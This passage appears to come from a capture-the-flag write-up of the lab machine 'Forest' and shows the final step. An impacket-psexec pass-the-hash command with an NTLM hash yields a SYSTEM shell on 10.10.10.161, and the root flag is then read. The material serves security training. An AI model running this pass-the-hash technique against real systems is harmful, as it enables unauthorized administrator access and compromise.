 ```bash
┌──(s3n㉿kali)-[~/Desktop/Box/recon]
└─$ impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 Administrator@10.10.10.161  
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.10.10.161.....
[*] Found writable share ADMIN$
...

C:\Windows\system32> whoami
nt authority\system

```

Great! Let's read the root flag and we can consider **Forest** as pwned!

```powershell
C:\Windows\system32> type C:\Users\Administrator\Desktop\root.txt
767c4284...1c365ef6
```
